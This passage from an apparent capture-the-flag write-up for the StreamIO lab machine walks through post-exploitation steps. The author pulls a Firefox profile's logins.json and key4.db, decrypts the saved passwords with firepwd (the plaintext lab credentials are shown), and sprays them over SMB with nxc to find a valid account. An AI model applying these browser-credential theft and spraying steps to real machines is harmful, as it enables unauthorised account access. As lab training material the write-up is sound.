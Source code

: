 We see Mozilla. Maybe there is firefox logins. 

We search up where to get the saved logins for firefox, we find:

https://support.mozilla.org/en-US/kb/profiles-where-firefox-stores-user-data

```bash
cd C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release

dir

<SNIP>
-a----        2/22/2022   2:41 AM           2081 logins.json

```

Let’s download this back to our host and view it:

```bash
download logins.json
donwload key4.db
```

We find this tool by searching up decrypt firefox passwords. We need one where we can specify the directory:

[https://github.com/lclevy/firepwd](https://github.com/lclevy/firepwd)

Let’s download the script and try it out:

```bash
python3 -m venv myenv
source myenv/bin/activate

pip install -r requirements.txt

python firepwd.py -d .

clearText b'b3610ee6e057c4341fc76bc84cc8f7cd51abfe641a3eec9d0808080808080808'
decrypting login/password pairs
https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'

```

Let’s use nxc to see which credentials are valid. First, put the users and passwords into two files, respectively. Now let’s run it:

```bash
nxc smb 10.10.11.158 -u users.txt -p pwds.txt --continue-on-success

SMB         10.10.11.158    445    DC               [+] streamIO.htb\JDgodd:JDg0dd1s@d0p3cr3@t0r 
```

We got a match with JDgodd. Let’s search this user up on bloodhound.

We have WriteOwner rights over Core Staff group:
